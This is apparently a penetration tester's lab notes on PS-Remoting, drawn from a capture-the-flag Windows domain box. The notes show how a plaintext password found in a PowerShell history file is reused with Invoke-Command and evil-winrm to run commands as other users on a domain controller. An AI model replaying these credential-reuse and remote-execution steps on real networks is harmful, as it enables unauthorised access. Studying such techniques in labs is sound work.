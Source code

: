 # PS-Remoting

There is two ways in which we can PSRemote into a system, usually after invoking SharpHound we would be able to see that some users have this right.&#x20;

![](../../../.gitbook/assets/2022-07-27\_23-43.png)

In the picture above, we can see that both current owned users are able to PS-Remote into the Domain Controller. This means that with a valid password we can use the following chain of commands to execute code.&#x20;

So in the case of TimeLapse we had a Powershell text history that allowed us to get the password who was able to PS-Remote into the system.&#x20;

In the text file we found the following text:

```
*Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> cat ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

So in theory if we pass the same commands we would be able to execute the commands as the user svc\_deploy.&#x20;

Chain of commands.

```
*Evil-WinRM* PS C:\Users> $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
*Evil-WinRM* PS C:\Users> $p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
*Evil-WinRM* PS C:\Users> $c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
```

Now executing commands via PS-Remoting.&#x20;

```
*Evil-WinRM* PS C:\Users> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
timelapse\svc_deploy
*Evil-WinRM* PS C:\Users> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {hostname}
dc01
```

### Evil-WInRM

We can use -S to specify PS-Remoting.&#x20;

```
evil-winrm -u 'Administrator' -p '8p4Uc,AC5lJ9E]P9X7#3$10@' -i 10.10.11.152  -S
```

### PoweView

```
Enter-PSSession -ComputerName <computer-name> -Credential user\domain
```
